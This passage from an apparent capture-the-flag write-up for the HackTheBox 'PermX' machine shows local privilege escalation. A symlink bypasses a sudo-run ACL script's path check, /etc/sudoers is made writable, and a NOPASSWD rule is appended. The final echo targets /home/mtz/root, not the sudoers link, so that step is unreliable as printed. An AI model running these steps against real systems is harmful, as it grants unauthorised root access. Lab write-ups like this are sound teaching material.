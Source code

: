 {{<figure src="/img/htb/permx/sudo_privs.png" position=center caption="mtz's sudo privileges">}}

Let's see the content of the script:

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

This script takes 3 arguments:
- A user
- Permissions to set
- And a target file

But the catch is that we can only set permissions of files inside `/home/mtz` and we cannot use path traversal. We can still bypass these restrictions by making use of [symbolic links](https://en.wikipedia.org/wiki/Symbolic_link).

We will first create a symbolic link to the file we want to change the permissions of. In this case, we can target the sudoers file.

```bash
ln -s /etc/sudoers /home/mtz/sudoers
```

Now let's run the script as root and change the permissions on `/home/mtz/sudoers`

```bash
sudo /opt/acl.sh mtz rw /home/mtz/sudoers
```

We are now able to edit the sudoers file. From here we can easily escalate to root, an easy way to do it is:

```bash
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
sudo su
```

And then retrieve the root flag:

{{<figure src="/img/htb/permx/root_flag.png" position=center caption="Root flag obtained !">}}

